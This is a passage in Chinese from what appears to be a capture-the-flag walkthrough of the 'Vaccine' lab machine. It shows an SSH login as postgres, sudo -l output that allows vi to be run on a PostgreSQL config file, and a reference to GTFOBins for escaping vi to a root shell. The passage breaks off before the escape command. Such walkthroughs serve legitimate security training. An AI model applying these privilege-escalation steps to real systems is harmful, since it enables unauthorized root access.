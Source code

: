 请注意，如果连接现在意外关闭，我们不必担心，因为我们现在可以简单地通过 ssh 进入系统，因为我们有一个密码，并且计算机上的一个 ssh 端口也是打开的。在命令提示符下键入以下内容:

```
**$**ssh postgres@[Target_IP]
```

然后，当它要求时，输入密码。请注意，您将看不到正在键入的密码，但可以肯定它正在被输入。您应该会看到类似这样的输出:

![](img/ca0cde20388d1de00f80a895d8383ef3.png)

让我们看看作为这个用户我们可以运行什么。

```
**postgres@vaccine:~$** sudo -l
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpassUser postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

所以我们可以运行这个命令:

```
/bin/vi /etc/postgresql/11/main/pg_hba.conf
```

作为当前用户。Vi 是为 unix 系统提供的一个旧的文本编辑器。根据 [gtfobins.github.io](https://gtfobins.github.io/gtfobins/vi/#sudo) 的说法，有一种方法可以作为根用户滥用这个来获得一个 shell。首先，让我们运行这个命令，并在询问时输入我们之前找到的 postgres 密码。
